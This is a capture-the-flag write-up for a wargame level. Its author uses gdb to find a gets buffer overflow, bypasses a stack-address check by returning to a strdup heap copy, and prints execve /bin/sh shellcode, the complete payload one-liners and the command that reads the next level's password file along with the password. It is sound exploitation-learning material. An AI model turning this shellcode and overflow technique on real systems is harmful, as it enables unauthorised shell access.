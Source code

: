 ### Level 2

#### Basic Recon
![](./pics/1.png)
![](./pics/2.png)

seems perfect for buffer overflow, the problem jump to where, so maybe we should insert some shell code and jump to it.

![](./pics/3.png)

I was looking around, and I encounter this maybe it'll be useful later, usually I want to see also what strings in the file too, but I can not why? no idea

![](./pics/4.png)

let's see what is going on in gdb

![](./pics/5.png)

well there's call to `p`

let's see step by step what is going on here.
![](./pics/6.png)
![](./pics/7.png)
![](./pics/8.png)
![](./pics/9.png)

and there's call to `fflush` since the return is zero, I'll just ignore it for now

![](./pics/10.png)
![](./pics/11.png)
![](./pics/12.png)

well get's can start filling from that pointer up, so we have 76 bytes before we start overwriting stuff on the stack

![](./pics/13.png)

what is going after the call to `gets`,
well we are taking what is stored at location `ebp+0x4` which is usually where the parameters for the functions stored, but there were no args pass weird !!,
and after that he move that value into location in the current stack frame `ebp-0xc`
and after that there's bitwise and with the value 0xb0000000
and then there's compare oh I got it so we need to everflow that location `ebp+0x4` and fill it with 0xb0000000,
so the

```asm
    cmp eax, 0xb0000000
```

is success

![](./pics/14.png)
![](./pics/15.png)
![](./pics/16.png)

remove that annoying 0a at the end

#### Test Payload

```
python -c "from __future__ import print_function; print('A'*76, end='')"
```

![](./pics/17.png)

so all we need now is to add other 4 to override where the previous ebp was stored and other 4 with the value 0xb0000000

#### Test Payload

```
python -c "from __future__ import print_function; print('A'*80 + '\x00\x00\x00\xb0', end='')"
```

![](./pics/18.png)

let's move on to the `cmp` instruction

![](./pics/19.png)

as you can see the value of eax is good now

![](./pics/20.png)

now we pass the first cmp

#### What Now?
![](./pics/21.png)

well at first I was thinkig of maybe shell code, but in order for that to work, ret instruction, should be excuted, but as you can see that's not possible because of that exit, so the exploit should happen before we reach the end of the function,

so what's the failure points between the first instruction of the function `p` to where's the call to `exit`, well after a bit of search I found out that there's somethig in `printf` called **format string attack** but that works only of `printf` is called with `%p` argument, well let's see what are printf inputs in this case,

![](./pics/22.png)

well that's the case here, that's great

let's get back but why do we choose this path maybe the other branch is better, because what is beign passed to printf is controlled I can not change it

#### Other Path
well now I believe I can put shell code on the stack, and make the condition `jne` false so we jump to lower instruction, which BTW that location is below `exit` which means ret will be excuted which is great for me

![](./pics/23.png)

better passed `exit`

so here's rough idea of what I inted to do

![](./pics/24.png)

what about `strdup` well I do not care, for now at least

### Why I think will work

well we will reach leave/ret, which will take address `bf ff f6 dc` that we overwrite, and jump to it where I put shell code before

here's shell code that's I just copied from a website

```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

with length of 21 bytes, and in order to reach the top of stack which is 80 from the current location is 80-21 = 59

```
python -c "from __future__ import print_function; print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'+ 'A'*59 + '\xdc\x\f6\xff\xbf', end='')"
```

you can see ther's the shell code at `0xbffff6dc`, and top of the stack is pointing to it?

![](./pics/25.png)
![](./pics/26.png)

done?

![](./pics/27.png)

as you can see `eax` will be `oxbffff6dc` and why is this probelm,

excuting these instructions
```
and eax, 0xb0000000 => eax = 0xb0000000
cmp eax, 0xb0000000 => set the flags that cmp was success
jne would fail and we would continue without jumping, and we encounter that exit again
```

what can we do now, well checksec reported that there's no aslr, can we use this information?

![](./pisc/../pics/28.png)

well if we can put our shell at the location `0x0804a008` that was returned by `strdup` and we overwirte the stack to point to it, maybe that will work, and this would avoid that `jne` becuase the value `0x0804a008` does not contain 0xb at first

but the problem now how can we put our shell in that location?

well the input to `strdup` is the location where to read from if we can force that to point to the location of our stack that would be great

![](./pics/29.png)

well as you can see we don't even to do that, becuase `strdup` already does that

### Finlay payload

```
python -c "from __future__ import print_function; print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'+ 'A'*59 + '\x08\xa0\x04\x08', end='')"
```

### Level 3 passowrd

```
cat payload - | ./level2
cat /home/user/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

again why `-` well if you remove cat will just output payload to level2 and done so ./level2 has nothing to read, so the shell will be closed
